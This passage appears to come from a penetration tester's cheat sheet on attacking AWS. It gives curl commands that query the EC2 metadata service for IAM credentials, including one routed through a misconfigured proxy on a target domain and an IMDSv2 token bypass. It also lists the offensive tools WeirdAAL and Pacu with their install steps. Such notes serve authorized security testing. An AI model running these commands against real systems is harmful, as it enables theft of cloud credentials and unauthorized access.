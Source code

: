 ### Instance Metadata Service URL

```bash
http://169.254.169.254/latest/meta-data
```

Additional IAM creds possibly available here

```bash
http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM Role Name>
```

Can potentially hit it externally if a proxy service (like Nginx) is being hosted in AWS and misconfigured

```bash
curl --proxy vulndomain.target.com:80 http://169.254.169.254/latest/meta-data/iam/security-credentials/ && echo
```

IMDS Version 2 has some protections but these commands can be used to access it

```bash
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` 
curl http://169.254.169.254/latest/meta-data/profile -H "X-aws-ec2-metadata-token: $TOKEN"
```

### Other AWS Tools

#### WeirdAAL

https://github.com/carnal0wnage/weirdAAL

Run recon against all AWS services to enumerate access for a set of keys

```python
python3 weirdAAL.py -m recon_all -t <name>
```

#### Pacu

AWS exploitation framework

https://github.com/RhinoSecurityLabs/pacu

Install Pacu

```bash
sudo apt-get install python3-pip
git clone https://github.com/RhinoSecurityLabs/pacu
cd pacu
sudo bash install.sh
```

Import AWS keys for a specific profile

```bash
import_keys <profile name>
```
